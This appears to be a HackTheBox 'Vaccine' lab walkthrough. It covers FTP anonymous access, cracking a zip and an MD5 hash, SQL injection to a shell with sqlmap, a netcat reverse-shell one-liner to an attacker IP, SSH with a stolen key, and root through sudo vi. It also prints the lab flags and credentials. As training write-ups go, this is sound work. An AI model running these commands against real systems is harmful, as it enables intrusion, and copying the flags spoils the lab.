 # HACKTHEBOX - Vaccine

## Enumeration
```bash
# Using rustscan to scan 65535 ports:
rustscan -a $IP -g # [21,22,80]

sudo nmap -sV -sC -v -oN nmap.txt -p 21,22,80 $IP
```

**nmap result**:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.198
|      Logged in as ftpuser
..........
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
........
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**Ftp on port 21**: `allowed anonymous login`(any password)
```bash
ftp $IP 21
# username: anonymous
mget * # backup.zip
```

We got `backup.zip` file, but this file is password protected zip archive, let's `brute-force` the password:

```bash
# first thing first, using zip2john convert to hash format that john can understand
locate zip2john
/usr/sbin/zip2john backup.zip > backup.hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash 
# password: 741852963        (backup.zip) 
````

Unzip with the password we found, we got `index.php` source code:
```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

This time, we using `crackstation.net` to find the password from md5 hash: 
```
2cb42f8734ea607eefed3b70af13bbd3 --> qwerty789
```

Log in web app with admin password we've found!!

OK, logged in, there're employees list have search function --> sqli --> YES!!

Let use `sqlmap` this time!!
```bash
# Remember to supply cookies, which we've logged in as admin
# --os-shell: Prompt for an interactive operating system shell (sweet!!)
sqlmap -u http://10.129.179.238/dashboard.php?search=hello --os-shell  --cookie='PHPSESSID=tbba04q6c3guadmj9lajpt0qca'
```

We got RCE!! --> Try to get a properly shell, this sqlmap shell keep asking about how to output stuff, so stupid!!

Using python reverse shell -> turn sqlmap shell off --> lost it
Using nc --> We're fine --> OK!!
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.198 8888 >/tmp/f
```
**From /var/lib/postgresql/user.txt**:

**user flag**: `HTB{ec9b13ca4d6229cd5cc1e09980965bf7}`

With attempt to upgrade to interactive shell but after like 3 minutes, the connection just some how keep lossing --> luckily, check home directory(from `/etc/passwd`) which is `/var/lib/postgresql` have `.ssh` --> get `id_rsa` key

`authorized_keys`: postgres@vaccine --> the `username is postgres` not postgresql --> ssh shell!!
```bash
ssh -i id_rsa postgres@$IP
```
## Privilege Escalation

This user is postgres remember!, to try `sudo -l` we have to supply password so let's check file configuration for `postgresql`:

`/var/www/html/dashboard.php`: 
```php
<?php
	session_start();
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}
# ............
?>
```
We got postgres user password: `P@s5w0rd!`

```bash
sudo -l
# User postgres may run the following commands on vaccine:
#    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
We can using `vim` as root with `sudo` command, but it's being restricted by specific path directory so we cannot use `-c` flag to execute command in vim. However, `vim has execute command mode` in it text-edittor no matter what file vim has to open.
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
# :!bash # spawn bash shell!
whoami # root
```

**From /root/root.txt**:

**root flag**: `HTB{dd6e058e814260bc70e9bbdef2715849}`
